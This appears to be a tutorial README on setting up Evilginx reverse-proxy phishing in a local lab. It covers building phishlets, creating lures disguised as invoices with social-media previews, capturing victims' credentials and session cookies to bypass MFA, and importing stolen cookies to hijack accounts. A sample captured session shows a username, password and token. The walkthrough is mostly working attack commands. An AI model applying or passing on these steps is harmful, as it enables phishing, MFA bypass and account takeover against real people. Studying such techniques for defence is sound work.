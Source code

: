 **MFA and Web Security**
If the adversary learns your password the adversary will not know how to obtain the MFA token. This is game over for except in the case of how web works.
The session token needs to be stored in your web browser and will be embedded in every request.
The adversary can steal your web token and provide it to the web server.
The adversary can steal your token using reverse proxy simulation software such as evilginx.

**Stealing the token**
Cookies & local storage are ways to store session tokens. Evilginx can handle both.
Reverse proxy phishing is a one-to-one copy of the real website, proxied dynamically in real time from the real website server.
Phishing server is the middle-man server and will proxy outbound and inbound requests from victim and intended website.
The encrypted connection is made from the user to the phishing server and the phishing server can subsequently decrypt and analyze all traffic from the user.
if the user has mfa enabled on the account, they will be presented with a legitimate MFA challenge & the user will be asked for an MFA token.
EvilGinx will capture the session token once the victim signs into the website & the adversary will have access to the hijacked account.

**Preparing the Environment**
1) Create a new profile user in chrome, comes in handy when we create our own phishlets and we want to delete our cookies for testing. Will be doing it often.
2) setup extensions, edit this cookie, localStorageManager. setting up settings -> privacy bookmark.

**Intro** 
help info
help.evilginx.com

go to the webpage you're trying to create a phishlet for
open source inspector -> go to network tab -> click preserve log to ensure we can capture all of our requests.
login to the website.
create yaml phishlet using example as template in the evilginx folder visual studio code can be used or any ide.
Best practice to leave the TLD in the domain parameter, but use the subdomain in the phish_sub & orig_sub parameter.

setup phishlets and server configuration in evilginx
```
config domain fake.com
```

```
config ipv4 127.0.0.1
```

```
phishlets hostname akira lab.evilginx.fake.com
```

```
phishlets enable akira
```

setup hostsfile to point to our webserver.
```
phishlets get-hosts akira
```
127.0.0.1 akira.lab.evilginx.fake.com

create a lure 
```
lures create akira
```

obtain lure url
```
lures get-url 0
```
https://akira.lab.evilginx.fake.com/IRMzRHCK

session cookies will automatically be ignored by evilginx. You need to explicitly modify your phishlet file to have it capture session cookies. (cookies that do not expire and have the session keyword) put the 'always' keyword after the cookie you want to grab if it's ignored i.e:
```
'token:always'
```

Then when you steal the session cookie, you will use the edit-cookie import feature and copy / paste the cookie string from the session listing in evil ginx. Then browse to the intended web application.
```
sessions 4
```

```
 id           : 4
 phishlet     : akira
 username     : brendan@crownehill.com
 password     : 9VC30o82pdSH764M
 tokens       : captured
 landing url  : https://akira.lab.evilginx.fake.com/IRMzRHCK
 user-agent   : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
 remote ip    : 127.0.0.1
 create time  : 2024-05-30 10:58
 update time  : 2024-05-30 10:59

[ cookies ]
[{"path":"/","domain":"akira.lab.evilginx.com","expirationDate":1748627972,"value":"e0d2e227-517b-4cb6-ac3f-e491d2e87ab7","name":"token","httpOnly":true,"hostOnly":true}]
```

editing lures:
```
lures edit 0 path /download/invoice/00556/
```
```
lures edit 0 hostname this.is.a.real.website.fake.com
```
```
lures edit  0 redirect_url https://www.dropbox.com/files/username/invoice1.pdf
```
editing the open graph preview image / title for if you want to send your URL through social media apps such as discord, linkedIn, Facebook, etc.
```
lures edit 0 og_image 'https://imgur.com/123123'
```
```
og_title = 'Invoice #0045'
```

Can add custom parameters to lure url in order to prefill some data about the phished user.
```
lures get-url 0 email=brendan@crownehill.com name="Brendan Ortiz"
```
